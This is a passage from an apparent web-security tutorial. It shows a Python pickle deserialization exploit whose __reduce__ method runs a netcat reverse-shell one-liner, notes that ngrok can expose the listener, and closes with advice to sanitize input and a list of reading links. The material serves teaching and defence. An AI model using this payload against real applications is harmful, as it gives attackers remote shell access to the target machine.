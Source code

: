 ```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

This code will generate a reverse shell, which opens the possibility of **RCE** on the target machine.
In order to accomplish this, you also need to make sure the port is accessible to the Internet.
You may find some simple instructions for how to do this [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/), using `ngrok`.
Again, it's one of the most dangerous vulnerabilities for a web application, whatever the programming language was chosen for the back-end (be it **PHP**, **Python**, **JavaScript**, **Ruby**, etc.), and the programmer should be aware and protect it against malicious actors.
Also, always research the functions and modules used inside your application to prevent such vulnerabilities.

# Wrap Up

As you have seen so far, even a small mistake, such as using `==` instead of `===`, can cause your application to break at unexpected input.
From an attacker standpoint, you can never know if the programmer was careful enough when writing the code, so you should always research and test what exploits can the application be vulnerable to, specific to the language / framework used.

The most important aspect we kept talking about during all the sessions is to never trust the user input.
He can have malicious thoughts and purposefully try to break the application or he can unknowingly send a bad request and achieve the same result.
In conclusion, the code should be properly tested before being put in production and the user input should always be carefully sanitized.

# Further Reading

* https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
* https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/
* https://foxglovesecurity.com/2017/02/07/type-juggling-and-php-object-injection-and-sqli-oh-my/
* https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/
* https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09
* https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/
* https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/
* https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/
* https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/
* https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
* https://www.whitehatsec.com/blog/magic-hashes/
* https://davidhamann.de/2020/04/05/exploiting-python-pickle/
